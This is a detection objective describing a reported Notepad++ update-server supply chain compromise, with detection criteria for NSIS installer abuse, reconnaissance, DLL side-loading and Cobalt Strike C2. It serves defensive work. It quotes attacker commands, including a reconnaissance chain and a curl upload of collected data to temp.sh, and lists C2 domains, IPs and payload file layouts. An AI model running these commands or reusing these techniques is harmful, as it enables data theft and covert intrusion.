

# Detect Notepad++ Supply Chain Compromise Activity

## Metadata

- **UUID**: `3e8b5d7f-9c2a-4f6e-8b1d-7a4c9e3f6b2d`
- **Schema**: `objective::1.0`
- **TLP**: clear

## Description
This detection objective addresses the sophisticated supply chain compromise
of Notepad++ update infrastructure that occurred between July and October 2025,
affecting organizations across multiple sectors and geographic regions.

The attack involved compromised update servers distributing malicious NSIS
installers through the legitimate GUP.exe updater, deploying three distinct
infection chains with varying execution techniques including ProShow vulnerability
exploitation, Lua interpreter abuse, and DLL side-loading.

Detection focuses on identifying the characteristic behaviors across all infection
chains: suspicious NSIS installer execution from update processes, system
reconnaissance command sequences, data exfiltration to legitimate web services
(temp.sh), abuse of legitimate executables for malicious code execution, and
communication with known Cobalt Strike C2 infrastructure.

Due to the critical nature of supply chain attacks and their potential for
widespread impact, this objective is assigned Critical priority with High
investment requirements for comprehensive detection coverage.

### NSIS Installer Deployment from Notepad++ Updater
Detects the execution of NSIS (Nullsoft Scriptable Install System) installers
launched by GUP.exe, the legitimate Notepad++ update component. The malicious
update payloads are NSIS installers ranging from 140KB to 1MB that create
temporary directories and deploy malicious components.

Detection focuses on:
- GUP.exe spawning processes that create or access NSIS temporary directories
  (typically named $PLUGINSDIR or ns.tmp)
- Execution of update.exe, install.exe, or AutoUpdater.exe from unusual locations
- NSIS installer execution that subsequently creates suspicious subdirectories
  in %APPDATA% (ProShow, Adobe\Scripts, Bluetooth)
- File writes to these directories including executable files and supporting
  payloads (load, alien.ini, log.dll, etc.)

This signal provides early detection at the initial deployment phase before
reconnaissance or C2 establishment occurs.

**Methodology**: Pattern Matching

### System Reconnaissance Commands Following Software Update
Detects sequences of system reconnaissance commands characteristic of the
Notepad++ supply chain attack discovery phase. Attackers executed combinations
of whoami, tasklist, systeminfo, and netstat -ano commands to profile victim
systems.

Detection criteria:
- Execution of 2 or more discovery commands within a 5-minute window
- Commands launched from suspicious parent processes or unusual working directories
- Specific command patterns observed in attack:
  * "cmd /c whoami&&tasklist > 1.txt" (Chain #1)
  * "cmd /c whoami&&tasklist&&systeminfo&&netstat -ano > a.txt" (Chain #2)
- Output redirection to files in suspicious AppData subdirectories:
  * %appdata%\ProShow\
  * %APPDATA%\Adobe\Scripts\
  * %appdata%\Bluetooth\

Behavioral correlation should consider:
- Temporal proximity to NSIS installer execution
- Parent process legitimacy (suspicious if from AppData)
- Working directory location
- Output file naming patterns (1.txt, a.txt)

**Methodology**: Behavioural

### Data Exfiltration to temp.sh Web Service
Detects data exfiltration to the temp.sh temporary file sharing service,
used by attackers to stage reconnaissance data and avoid direct C2 communication.
The technique involves uploading system information to temp.sh and transmitting
the resulting URL to C2 infrastructure via User-Agent headers.

Detection approaches:

Network-based:
- DNS queries for temp.sh or temp[.]sh domain
- HTTP/HTTPS POST requests to temp.sh with file upload content
- Outbound connections to temp.sh IP addresses
- Suspicious User-Agent headers containing temp.sh URLs
  (e.g., "Mozilla/5.0 (https://temp.sh/xxxxx)")

Host-based:
- Execution of curl.exe or similar HTTP tools with temp.sh in arguments
- Command lines containing: "curl", "temp.sh", and file paths
- Example: "curl -F file=@1.txt https://temp.sh"

Context enrichment:
- Temporal correlation with reconnaissance command execution
- Source file locations in suspicious AppData subdirectories
- Parent process analysis (suspicious if from AppData executables)

This signal is high severity due to confirmed data exfiltration activity
and direct linkage to the attack campaign.

**Methodology**: Pattern Matching

### Suspicious DLL Side-Loading and Exploit-Based Execution
Detects malicious execution via legitimate software abuse, including DLL
side-loading and exploitation of vulnerable legitimate executables. The
Notepad++ campaign employed three distinct execution techniques across
infection chains.

Detection signatures:

1. **ProShow Exploitation (Chain #1)**:
   - ProShow.exe execution from %appdata%\ProShow\
   - Presence of "load" file (no extension) in same directory
   - ProShow.exe not in legitimate program installation paths

2. **Lua Interpreter Abuse (Chain #2)**:
   - lua.exe or script.exe execution from %APPDATA%\Adobe\Scripts\
   - Presence of alien.ini file (compiled Lua script)
   - API call patterns: EnumWindowStationsW invoked by Lua interpreter
   - Memory allocation patterns consistent with shellcode loading

3. **BluetoothService DLL Side-Loading (Chain #3)**:
   - BluetoothService.exe execution from %appdata%\Bluetooth\
   - log.dll loaded from same directory (not from System32)
   - Presence of "BluetoothService" file without extension (encrypted payload)
   - Unsigned or suspicious DLL loaded by signed executable

Common indicators across all techniques:
- Legitimate executables running from unusual AppData subdirectories
- Accompanying suspicious files (load, alien.ini, log.dll, encrypted payloads)
- Process creation from AppData locations not typical for legitimate software
- Module load events showing DLLs loaded from non-standard paths

High severity due to active exploitation and malicious code execution.

**Methodology**: Pattern Matching

### Cobalt Strike Beacon C2 Communication
Detects network communication to known Cobalt Strike C2 infrastructure
associated with the Notepad++ supply chain campaign. All observed infection
chains ultimately deployed Cobalt Strike Beacon as the primary post-compromise
C2 implant.

Network indicators:

**Known C2 Domains**:
- cdncheck.it[.]com (Chain #1, July-August 2025)
- self-dns.it[.]com (Chain #2, September-October 2025)
- safe-dns.it[.]com (Chain #2, September-October 2025)
- api.wiresguard[.]com (Chain #3, October 2025)
- api.skycloudcenter[.]com (observed in later variants)

**Download Infrastructure IPs**:
- 45.77.31[.]210 (Cobalt Strike download: /users/admin)
- 45.76.155[.]202 (update.exe distribution)
- 45.32.144[.]255 (update.exe distribution)
- 95.179.213[.]0 (update.exe, install.exe, AutoUpdater.exe)

Detection criteria:
- DNS queries or resolutions for listed domains
- Outbound HTTPS (443) connections to listed domains/IPs
- HTTP GET requests to paths like /users/admin or /update/*
- TLS SNI fields matching C2 domains
- Beacon-like traffic patterns: periodic HTTPS requests with consistent intervals

**Behavioral indicators**:
- Regular HTTPS beaconing from endpoints at fixed intervals (jitter may be present)
- Outbound connections to domains mimicking legitimate services (CDN, DNS, VPN)
- POST requests with encrypted payloads following GET requests
- Network activity from processes executing from AppData directories

**Configuration artifacts**:
- XOR-encrypted Cobalt Strike configuration with key "CRAZY"
- Memory strings matching listed domains in suspicious processes

Critical severity due to confirmed C2 channel establishment indicating
active compromise and ongoing threat actor access to the environment.

**Methodology**: Pattern Matching

## Relations

